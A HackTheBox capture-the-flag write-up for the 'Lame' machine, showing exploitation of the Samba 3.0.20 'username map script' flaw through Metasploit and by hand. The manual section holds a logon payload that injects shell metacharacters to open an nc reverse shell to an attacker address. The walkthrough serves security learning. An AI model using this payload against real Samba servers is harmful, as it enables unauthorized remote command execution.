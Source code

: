 ```yaml
---
layout: post
comments: true
section-type: post
title: HackTheBox Write-up - Lame
category: hackthebox
tags: [ 'samba' ]
---
```


**DIGEST**

An initial Nmap scan result will show us a vulnerable samba service which is running on port 139. It's vulnerable to the "Samba username map script" vulnerability and exploited using both Manual and Metasploit module.

![lame](../../../../img/htb/lame/lame.png)

<html>

<head>
    <style>
    b {
  font-weight: bold;
}
        table {
            font-family: arial, sans-serif;
            border-collapse: collapse;
            width: 100%;
        }

        td,
        th {
            border: 1px solid #050505;
            text-align: left;
            padding: 8px;
        }

        tr:nth-child(even) {
            background-color: #050505;
        }
    </style>
</head>

<body>
    <h2 class="text-center">Lame</h2>
    <!--<img src="https://www.hackthebox.eu/storage/avatars/fb2d9f98400e3c802a0d7145e125c4ff.png">         =-->
    <p>
        <table>
            <tbody>
                <tr>
                    <td class="text-right">OS:</td>
                    <td>Linux</td>
                </tr>
                <tr>
                    <td class="text-right">Difficulty:</td>
                    <td> <span class="text-success bold">Easy</span></td>
                </tr>
                <tr>
                    <td class="text-right">Points:</td>
                    <td><span class="text-success">20</span></td>
                </tr>
                <tr>
                    <td class="text-right">Release:</td>
                    <td>14 Mar 2017</td>
                </tr>
                <tr>
                    <td class="text-right">IP:</td>
                    <td>10.10.10.3</td>
                </tr>
            </tbody>
        </table>
    </p>
</body>
</html>


**Tools Used:**

>Nmap, Searchsploit, Metsaploit


**Initial Scan with Nmap:**

![lame-nm](../../../../img/htb/lame/lame-nmap.png)

![lame-nmap](../../../../img/htb/lame/lame-nmap-result.png)

**Vulnerable Samba service on port 139:**

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!

**Searchsploit:**

> $ searchsploit Samba 3.0.20

![Searchsploit](../../../../img/htb/lame/lame-sp.png)

**MSF Module - Samba "username map script" Command Execution:**

> $ msf> use exploit/multi/samba/usermap_script

![msf](../../../../img/htb/lame/lame-msf.png)

![shell](../../../../img/htb/lame/lame-msf2.png)

![root](../../../../img/htb/lame/lame-hash.png)

**Manual Exploitation:**

> logon “./=`nohup nc -e /bin/bash 10.10.14.18 4444`"

![Manual](../../../../img/htb/lame/lame-manual1.png)

![Manualroot](../../../../img/htb/lame/lame-manual1.png)

**Rate Matrix:**

![matrix](../../../../img/htb/lame/lame-matrix.png)

<h5><center>Thanks for reading ❤️! </center></h5>
<h5><center>Feel free to leave a comment 💬 below.</center></h5>
